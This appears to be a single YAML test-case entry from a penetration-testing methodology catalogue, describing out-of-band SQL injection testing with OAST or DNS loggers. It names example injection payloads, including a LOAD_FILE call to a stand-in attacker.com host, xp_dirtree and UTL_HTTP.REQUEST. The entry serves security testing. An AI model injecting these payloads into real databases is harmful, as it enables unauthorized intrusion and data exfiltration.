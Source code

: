 ```yaml
---
testcase: OOB DNS/HTTP Triggering – Inject payloads that cause the database to make outbound DNS/HTTP requests (e.g., LOAD_FILE('\\\\attacker.com\\payload'), xp_dirtree, UTL_HTTP.REQUEST) and monitor via OAST services or DNS loggers to detect possible OOB SQLi
platforms: 
  - Web
  - Network
methodology: 
  - BlackBox
  - GreyBox
vulnerabilities:
  - SQLi
services:
  - WEB
references:
  - https://portswigger.net/web-security/sql-injection
  - https://portswigger.net/web-security/sql-injection/cheat-sheet
---
```

